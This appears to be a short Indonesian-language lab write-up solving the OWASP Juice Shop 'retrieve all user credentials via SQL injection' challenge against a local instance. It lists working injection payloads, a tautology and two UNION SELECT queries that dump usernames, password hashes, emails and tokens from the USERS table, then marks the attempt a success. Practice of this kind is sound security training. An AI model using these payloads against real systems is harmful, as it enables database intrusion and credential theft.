



Retrieve a list of all user credentials via SQL Injection 
https://juice-shop.herokuapp.com/#/score-board?categories=Injection 

Hal-hal yang dilakukan: 
1. Mencari tahu bagaimana bisa melihat semua nya dengan query 127.0.0.1:3000/rest/products/search?q=' OR 1=1 /**/

2. Mencari semua user dengan query 127.0.0.1:3000/rest/products/search?q=test')) UNION SELECT username, password, role, deletedAt, isActive, createdAt, id, deluxeToken, profileImage FROM USERS-- 

3. Mencari semua user secara lengkap beserta dengan email yang ada 127.0.0.1:3000/rest/products/search?q=test')) UNION SELECT username, password, role, deletedAt, isActive, createdAt, id, email, profileImage FROM USERS--

Bukti 

#### Berhasil 